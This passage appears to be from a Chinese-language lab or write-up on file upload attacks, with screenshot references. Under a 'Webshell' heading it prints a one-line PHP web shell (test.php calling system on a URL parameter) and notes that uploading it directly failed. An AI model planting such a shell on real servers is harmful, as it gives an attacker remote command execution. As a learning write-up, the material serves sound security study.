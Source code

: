     ![](img/20181102-49.png)

#### 3.3 Webshell
- 编写内容如下的php文件，命名为 test.php
    ```php
    <?php
    system($_GET['cmd']);
    ?>
    ```
- 尝试直接上传失败

    ![](img/20181102-47.png)
